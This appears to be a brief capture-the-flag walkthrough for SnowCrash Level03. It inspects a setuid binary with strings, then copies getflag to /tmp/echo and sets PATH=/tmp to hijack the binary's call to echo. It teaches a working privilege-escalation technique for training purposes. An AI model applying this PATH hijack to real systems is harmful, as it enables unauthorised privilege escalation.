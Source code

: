 
# Level03

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```bash
strings -d level03
```

```bash
strings -d level03
```

```bash
cp /bin/getflag /tmp/echo
```

```bash
export PATH=/tmp
```
